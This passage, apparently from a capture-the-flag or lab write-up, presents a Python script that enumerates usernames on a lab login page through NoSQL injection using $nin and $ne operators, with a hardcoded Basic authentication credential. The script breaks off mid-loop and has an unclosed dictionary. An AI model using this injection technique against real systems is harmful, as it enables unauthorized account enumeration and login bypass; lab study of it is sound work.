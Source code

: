![nosqli](Images/nosqli.gif)

Here is the script I used to get all usernames in the database:
```python
import requests
import re

# Target URL for the enumeration
url = 'http://10.10.148.23:50628/'

# Error message to identify invalid username or password
error_message = 'Invalid username or password'

# Initial username and headers setup
usernames = ['Frostbite']
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Authorization': 'Basic YWRtaW46WTN0aVN0YXJDdXIhb3VzcGFzc3dvcmQ9YWRtaW4=' #Base64 login information, admin:Y3tiStarCur!ouspassword=admin

# First request to get a valid PHPSESSID
cookie_req = requests.get(url + 'login.php', headers=headers)
cookies = cookie_req.cookies.get_dict()

# Print a starting message
print('\nEnumeration started!\n')

# Payload and loop for username enumeration
while True:
    # Construct the payload for the current set of usernames
    usernames_payload = '&'.join(f'username[$nin][{i}]={username}' for i, username in enumerate(usernames))
    payload = f'{usernames_payload}&password[$ne]=1'

    # Send the login POST request
    r = requests.post(url + 'login.php', headers=headers, cookies=cookies, data=payload)
```